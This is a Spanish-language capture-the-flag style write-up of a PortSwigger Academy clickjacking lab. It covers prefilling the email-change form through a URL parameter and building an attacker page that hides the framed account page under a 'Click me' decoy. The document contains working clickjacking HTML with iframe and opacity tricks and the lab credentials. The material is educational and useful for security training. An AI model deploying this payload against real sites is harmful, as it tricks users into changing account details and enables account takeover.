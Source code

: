 # Lab: Clickjacking with form input data prefilled from a URL parameter

This lab extends the basic clickjacking example in `Lab: Basic clickjacking with CSRF token protection`. The goal of the lab is to change the email address of the user by prepopulating a form using a URL parameter and enticing the user to inadvertently click on an "Update email" button.

To solve the lab, craft some HTML that frames the account page and fools the user into updating their email address by clicking on a "Click me" decoy. The lab is solved when the email address is changed.

You can log in to your own account using the following credentials: `wiener:peter`

`Hint`: You cannot register an email address that is already taken by another user. If you change your own email address while testing your exploit, make sure you use a different email address for the final exploit you deliver to the victim.

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

Iniciamos el laboratorio y nos encontramos con un blog público:
![image](https://github.com/user-attachments/assets/fda2376e-c775-4d09-a76d-f9441833f9c0)

Objetivo del laboratorio:

Hacer que el usuario víctima, al hacer clic en un señuelo que dice "Click me", actualice su dirección de email por una controlada por el atacante, aprovechando que el formulario:

- Se puede prellenar con parámetros en la URL.

- Puede ser activado visualmente mediante clickjacking.

Procedemos a autenticarnos con nuestras credenciales `wiener:peter`, en el dashboard del usuario vemos que tenemos la funcionalidad de `Update email`:
![image](https://github.com/user-attachments/assets/68c2680e-3eed-4e72-ae2c-9781dd823585)

El siguiente paso es verificar que al ingresar una dirección de correo y presionar “Update email”, se envía un formulario prellenado, posiblemente con un CSRF token.

Cambiamos el mail por `test@test.com`:
![image](https://github.com/user-attachments/assets/4d0619fa-f003-4c81-9740-d70531fb93b6)

Observamos el código fuente y vemos lo siguiente:
![image](https://github.com/user-attachments/assets/6cd03705-1106-442e-9479-bd0372375e87)

Lo primero que podemos observar de esto es lo siguiente:

- Envía una petición POST al endpoint `/my-account/change-email` con 2 parámetros (`email` y `csrf="CVx76vmrM8PTmiqRpDDdESV1Z9GkHBQI"` )

Procedemos a validar si existe la precarga del formulario usando parámetros en la URL
Entonces, de ser cierto, el campo `email` en el formulario:
```html
<input required type="email" name="email" value="">
```
...puede ser prellenado vía parámetro GET. 
Esto indica que si accedemos a:
```text
https://YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker.com
```
...el servidor toma ese valor de email desde los parámetros de la URL y lo utiliza para prellenar el campo del formulario. Esto ocurre sin intervención del usuario, lo cual es fundamental para automatizar el ataque de clickjacking.

Hacemos la prueba y validamos que efectivamente existe la precarga del formulario usando parámetros en la URL:
![image](https://github.com/user-attachments/assets/7827582b-0a77-4b77-9053-9dc5948c1496)

Esto se puede combinar con un ataque de clickjacking para presentar un formulario listo para enviar, sobre el cual el usuario haga clic sin saberlo.


Al igual que en el laboratorio anterior, accedemos al Exploit server y procedemos a generar nuestrá página atacante.
Iniciamos ingresando el siguiente código:
```html
<iframe src="https://0ae60060043720a1ede85b8500cd0080.web-security-academy.net/my-account?email=test@test.com"></iframe>
```
![image](https://github.com/user-attachments/assets/1c02169f-7865-4d1f-ad44-f60f2c937d04)

Seguimos avanzando, ahora agregamos un "botón fake" usando el elemento `<div>` y le damos estilo tanto al `iframe` como al `div`:
```html
<style>
  iframe {
    position: relative;
    width: 700px;
    height: 500px;
    opacity: 0.1;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 400px;
    left: 80px;
    z-index: 1;
  }
</style>

<div>Test me</div>
<iframe src="https://0ae60060043720a1ede85b8500cd0080.web-security-academy.net/my-account?email=test@test.com"></iframe>
```
![image](https://github.com/user-attachments/assets/9750adde-fb29-46de-8df2-adfd737749e0)


El siguiente paso es alinear el señuelo con el botón real:
```html
<style>
  iframe {
    position: relative;
    width: 700px;
    height: 500px;
    opacity: 0.1;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 450px;
    left: 60px;
    z-index: 1;
  }
</style>

<div>Click me</div>
<iframe src="https://0ae60060043720a1ede85b8500cd0080.web-security-academy.net/my-account?email=test@test.com"></iframe>
```

Vemos que los elementos se superponen correctamente y efectivamente el mail está precargado en el formulario:
![image](https://github.com/user-attachments/assets/34eeab15-dd15-48de-89c2-5d67aafd8da4)


Ahora procedemos a bajar la opacidad y a cambiar el mail por un mail que no haya sido registrado:
```html
<style>
  iframe {
    position: relative;
    width: 700px;
    height: 500px;
    opacity: 0.000001;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 450px;
    left: 60px;
    z-index: 1;
  }
</style>

<div>Click me</div>
<iframe src="https://0ae60060043720a1ede85b8500cd0080.web-security-academy.net/my-account?email=prueba@prueba.com"></iframe>
```

Vemos que el `iframe` es imperceptible:
![image](https://github.com/user-attachments/assets/579c6c0c-6a26-4ead-a491-2ee0c6ad42bb)




